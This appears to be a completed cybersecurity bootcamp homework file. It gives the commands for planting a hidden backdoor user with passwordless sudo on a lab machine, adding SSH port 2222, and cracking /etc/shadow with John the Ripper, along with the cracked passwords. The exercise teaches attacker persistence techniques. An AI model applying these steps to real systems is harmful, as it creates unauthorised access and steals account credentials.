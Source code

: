 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `adduser --no-create-home sysd`

2. Give your secret user a password: 
    - `passwd sysd`

3. Give your secret user a system UID < 1000:
    - `usermod -u 777 sysd`

4. Give your secret user the same GID:
   - `groupadd -g 777 Administration`
     `usermod -g 777 sysd`

5. Give your secret user full `sudo` access without the need for a password:
   -  `usermod -aG sudo sysd`
      `visudo`
#### Then add sysd ALL=(ALL:ALL) NOPASSWD:ALL to the sudoers file####

6. Test that `sudo` access works without your password:

       `su sysd`
       `sudo -l`
    #### It didn't require a password which means it was a success ####

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    `nano /etc/ssh/sshd_config`
    #### Uncomment "Port 22" and add a line "Port 2222" ####

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `systemctl restart ssh`

2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `sudo su`
      `john /etc/shadow`
Loaded 8 password hashes with 8 different salts (crypt, generic crypt(3) [?/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
sysd             (sysd)

computer         (stallman)
freedom          (babbage)
trustno1         (mitnik)
dragon           (lovelace)
lakers           (turing)
passw0rd         (sysadmin)
Goodluck!        (student)
8g 0:00:03:58 100% 2/3 0.03348g/s 460.5p/s 472.1c/s 472.1C/s Missy!..Jupiter!
Use the "--show" option to display all of the cracked passwords reliably
Session completed

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

